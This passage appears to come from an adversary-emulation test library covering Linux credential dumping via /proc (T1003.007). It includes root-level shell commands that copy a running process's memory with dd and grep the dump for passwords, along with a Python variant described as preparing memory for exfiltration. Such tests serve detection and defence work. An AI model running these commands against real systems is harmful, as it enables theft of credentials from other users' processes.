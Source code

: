 #### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.007.bin|
| script_path | Path to script generating the target process | path | /tmp/T1003.007.sh|
| pid_term | Unique string to use to identify target process | string | T1003.007|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sh #{script_path}
PID=$(pgrep -n -f "#{pid_term}")
MEM_START=$(head -n 5 /proc/"${PID}"/map | tail -1 | cut -d' ' -f1)
MEM_STOP=$(head -n 5 /proc/"${PID}"/map | tail -1 | cut -d' ' -f2)
MEM_SIZE=$(echo $(($MEM_STOP-$MEM_START)))
dd if=/proc/"${PID}"/mem of="#{output_file}" ibs=1 skip="$MEM_START" count="$MEM_SIZE"
strings "#{output_file}" | grep -i PASS
```

#### Cleanup Commands:
```sh
rm -f "#{output_file}"
```



#### Dependencies:  Run with `sh`!
##### Description: Script to launch target process must exist
##### Check Prereq Commands:
```sh
test -f #{script_path}
grep "#{pid_term}" #{script_path}
```
##### Get Prereq Commands:
```sh
echo '#!/bin/sh' > #{script_path}
echo "sh -c 'echo \"The password is #{pid_term}\" && sleep 30' &" >> #{script_path}
```




<br/>
<br/>

## Atomic Test #3 - Dump individual process memory with Python (Local)
Using `/proc/$PID/mem`, where $PID is the target process ID, use a Python script to
copy a process's heap memory to an external file so it can be searched or exfiltrated later.
On FreeBSD procfs must be mounted.
